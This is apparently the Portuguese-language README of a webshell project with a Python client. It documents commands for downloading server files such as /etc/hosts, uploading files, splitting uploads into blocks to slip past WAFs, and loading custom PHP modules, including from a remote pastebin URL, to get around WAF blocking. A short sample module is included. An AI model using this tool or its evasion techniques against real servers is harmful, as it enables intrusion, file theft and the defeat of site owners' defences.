


# webshell

Webshell com cliente em python, com possibilidade de carregamento de modulos e comandos locais.



### Modulos

Existe a possibilidade de criar e carregar modulos costumizados para tentar burlar bloqueios de WAFs e/ou adicionar novos recursos que esteja em falta.

Exemplo de modulo com o source:
```php
<?php
global $wShell;

$wShell->on("teste", function($args, $length) use ($wShell){
    return $wShell->setResponse("testando 123");
});
```


### Comandos

- download
  - Faz download de um arquivo
  - Uso: `download [arquivo] [local para salvar (opcional)]`
  - Exemplos:
    - `download /etc/hosts downloads/hosts`
    - `download /etc/hosts`
- upload
  - Realiza o upload de um arquivo, caso não exista o arquivo no servidor
  - Uso: `upload [arquivo] [local com nome para salvar (opcional)]`
  - Exemplos:
    - `upload a.php`
    - `upload a.php abc.php`
- uploadinblocks
  - Realiza o upload de um arquivo divido em blocos para evitar bloqueio de WAFs
  - Uso: `uploadinblocks [arquivo] [local com nome para salvar] [tamanho do bloco (padrão 1024)]`
  - Exemplos:
    - `uploadinblocks a.php`
    - `uploadinblocks a.php /home/saturn/ 128`
- webshellping
  - Verifica o tempo de ida e volta da requisição com a web shell
  - Uso: `webshellping`
- module-add
  - Adiciona um modulo na sessão
  - Uso: `module-add [nome do modulo] [localdo arquivo (possibilidade de arquivo remoto)]`
  - Exemplos:
    - `module-add teste teste.module.php`
    - `module-add teste https://pastebin.com/raw/anccf`
- module-remove
  - Remove um modulo da sessão
  - Uso: `module-remove [nome do modulo]`
  - Exemplo:
    - `module-remove teste`
- module-list
  - Lista os modulos da sessão
  - Uso: `module-list`
